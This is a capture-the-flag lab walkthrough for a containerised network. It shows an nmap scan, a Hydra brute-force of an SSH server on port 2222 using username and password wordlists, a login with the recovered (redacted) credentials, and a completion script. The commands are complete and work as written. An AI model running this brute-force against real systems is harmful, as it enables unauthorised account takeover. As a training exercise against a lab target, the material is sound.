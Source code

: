 ## Machines on network:

172\.28.1.4 **SSH Server**

172\.28.1.5 - **Kali Linux container**

## Overview of Challenge:
This challenge takes the user through using a password and username list to bruteforce an SSH server with weak credentials. 

**SSH** or secure shell is a tool and protocol for connecting securely between two hosts. In this challenge, our end goal will be to use the weak credentials found by bruteforcing the SSH server to run a completion script on our target machine. 

**Hydra** is the tool we will be using to run the brute force attack on the server. Hydra can be used for bruteforce attacks on many protocols, but in this challenge we will be using it for bruteforcing SSH.

**nmap** is a port scanning tool, we can use this tool to determine what is running and accessible on a target IP or network.

**Wordlists** are lists of common usernames, passwords, web endpoints, etc... that we can use to try and guess credentials, website addresses, and more.

Walkthrough:

## 1) Scanning the target

Our first objective will be to run a nmap port scan on our target machine. We can start the scan with the following command:

```nmap -sV 172.28.1.4```

The -sV specifies nmap to run a service scan on the target machine, whose IP is 172\.28.1.4 

This command will output the following:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-09 03:55 UTC
Nmap scan report for challengecomposefiles-bruteforce-ssh-1.webnet (172.28.1.4)
Host is up (0.000014s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
MAC Address: 02:42:AC:1C:01:04 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds

```
As we can see, nmap detects a OpenSSH server running on port 2222

## 2) Attacking the target
Now that we have found an open port to exploit, we can start our attack. For this attack we will use the "top-usernames-shortlist.txt" as our username wordlist, and the "2020-200_most_used_passwords.txt" as our password wordlist. We can use the following Hydra command to start the attack

```hydra -s 2222 -L top-usernames-shortlist.txt -P 2020-200_most_used_passwords.txt 172.28.1.4 ssh```

**"-s 2222"** specifies the port, by default Hydra will attack port 22 for SSH, as that is the default port for SSH, but our target is configured to listen on port 2222.

**"-L top-usernames-shortlist.txt"** specifies our username wordlist

**"-P 2020-200_most_used_passwords.txt"** specifies our password wordlist

**"172.28.1.4 ssh"** specifies our target IP, and tells Hydra to attack over SSH

This command will output
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-09 04:13:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3349 login tries (l:17/p:197), ~210 tries per task
[DATA] attacking ssh://172.28.1.4:2222/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 3195 to do in 00:21h, 14 active
[2222][ssh] host: 172.28.1.4   login: <redacted>   password: <redacted> 
```
As shown in the output, we found a pair of working credentials! Now let's use them to gain access to the machine!

## 2) Accessing the target
Now that we have a set of credentials, lets login! 

We can login to the target over SSH with the following command (Just replace \<redacted> with the username Hydra found)

```ssh <redacted>@172.28.1.4 -p 2222```

You will be prompted for the password you just found, and then you will have a shell!

If we run ```ls -la``` in our new shell, we will get the following output

``` 526645b89d41:~$ ls -la
total 28
drwxr-xr-x 5 admin users 4096 May  9 04:13 .
drwxr-xr-x 1 root  root  4096 May  9 04:13 ..
drwx------ 2 admin users 4096 May  9 03:54 .ssh
-rwxr-xr-x 1 admin users   74 May  9 00:46 complete.sh
drwxr-xr-x 3 admin users 4096 May  9 03:54 logs
drwxr-xr-x 2 admin users 4096 May  9 04:13 ssh_host_keys
-rw-r--r-- 1 admin users    4 May  9 04:13 sshd.pid
526645b89d41:~$ 
```

As you can see, there appears to be a script called "complete.sh" that we can run. We can run it using the following command

```./complete.sh```

After running the script, we can check the challenge tracking page at http://172.28.1.2 and the challenge should be marked as complete!